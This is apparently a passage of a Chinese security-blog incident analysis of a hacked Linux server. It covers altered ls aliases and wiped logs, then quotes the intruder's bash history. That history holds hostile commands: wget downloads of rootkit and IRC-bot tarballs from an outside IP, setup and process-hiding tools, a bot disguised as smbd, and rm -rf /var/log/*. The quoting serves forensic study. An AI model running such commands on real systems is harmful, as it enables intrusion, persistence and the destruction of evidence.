 [![freebuf]()](http://www.freebuf.com/)

[新浪微博](http://www.weibo.com/freebuf "收听新浪微博") [腾讯微博](http://t.qq.com/freebuf "收听腾讯微博")[订阅我们](http://www.freebuf.com/feed "订阅我们")

### 一次服务器被入侵后的分析

[]()[litdg](http://www.freebuf.com/author/litdg "由 litdg 发布") @ [系统安全](http://www.freebuf.com/category/articles/system "查看 系统安全 中的全部文章") 2013-09-11 共 **9902** 人围观 

**最近有个朋友让我去帮他看一下他的linux服务器.说是apache启动不了,有很多诡异的情况.后来证明绝不是apache启动不了这么简单.**

登上服务器之后随便看了下,最先引起我注意的是”ls”命令的输出:

lars@server1:~$ ls ls: invalid option -- h Try `ls --help' for more information.

为什么”ls”默认加了”-h”参数呢?我用”alias”命令看了一下,然后取消了这个别名之后”ls”就工作正常了.

lars@server1:~$ alias ls alias ls='ls -sh --color=auto' lars@server1:~$ unalias ls lars@server1:~$ ls backup lars@server1:~$

虽然很奇怪,不过我的首要任务是先把apache启动起来,等过会再仔细研究这个问题.

lars@server1:~$ sudo /etc/init.d/apache2 start Password: * Starting apache 2.0 web server... (2): apache2: could not open error log file /var/log/apache2/error.log. Unable to open logs ...fail!

纳尼?赶紧去”/var/log/”目录一看,果然”apache2/”文件夹不见了.而且这个目录下其他的文件夹,比如”mysql/”,”samba/”也都不见了.一定是哪里出错了.会不会是我朋友不小心删掉了呢,他跟我说绝对没有.然后我用root登录进去准备修复日志丢失的问题.

lars@server1:~$ sudo -i Password: root@server1:~# ls ls: unrecognized prefix: do ls: unparsable value for LS_COLORS environment variable total 44 4 . 4 .bashrc 4 .ssh 4 .. 4 .lesshst 8 .viminfo 8 .bash_history 4 .profile 4 .vimrc

很不幸的发现,”ls”又出问题了.同样,用”alias”命令:

root@server1:~# alias ls alias ls='ls -sa --color=auto' root@server1:~# unalias ls root@server1:~# ls root@server1:~#

这个时候,我才意识到问题的严重性.”ls”奇怪的举动和”/var/log/”大量日志被删除让我怀疑服务器是否被入侵了.当我看到root目录下的”.bash_history”时,就已经可以确定被入侵了.

   
root@server1:~# cat -n .bash_history ... 340 w 341 cd /var 342 wget http://83.19.148.250/~matys/pliki/shv5.tar.gz 343 tar -zxf shv5.tar.gz 344 rm -rf shv5.tar.gz 345 mv shv5 .x 346 cd .x 347 ./setup zibi.joe.149 54098 348 passwd 349 passwd 350 ps aux 351 crontab -l 352 cat /etc/issue 353 cat /etc/passwd 354 w 355 who 356 cd /usr/lib/libsh 357 ls 358 hide + 359 chmod +x hide 360 hide + 361 ./hide + 362 cd /var/.x 363 mkdir psotnic 364 cd psotnic 365 wget http://83.19.148.250/~matys/pliki/psotnic0.2.5.tar.gz 366 tar -zxf psotnic0.2.5.tar.gz 367 rm -rf psotnic0.2.5.tar.gz 368 ls 369 mv psotnic-0.2.5-linux-static-ipv6 synscan 370 ./synscan 371 vi conf 372 vi conf1 373 mv synscan smbd 374 smbd -c conf 375 ls 376 ps aux 377 ls 378 ./smbd -c conf 379 ./smbd -c conf1 380 ./smbd conf 381 ./smbd conf1 382 ./smbd -a conf conf1 383 rm -rf conf.dec 384 rm -rf conf1.dec 385 cd /usr/lib/libsh 386 ./hide + 387 exit ... 425 ssh ftp@62.101.251.166 426 w 427 ls 428 ls 429 cd /var/.x 430 ls 431 cd psotnic/ 432 ls 433 rm -rf /var/log/* 434 exit 435 ls 436 cd /var/.x/psotnic/ 437 ls 438 vi conf2 439 ./smbd -c conf2 440 ./smbd conf2 441 ./smbd -a conf conf1 conf2 442 rm -rf conf2.dec 443 cd .. 444 ls 445 cd /usr/lib/libsh 446 hide + 447 ./hide + 448 exit 449 ps aux 450 cd /var/.x 451 ls 452 ls 453 cd psotnic/ 454 ls 455 cat pid.MastaH 456 kill -9 2030 457 ./synscan -a conf conf1 458 ./smbd -a conf conf1 459 cd /usr/lib/libsh 460 ./hide +
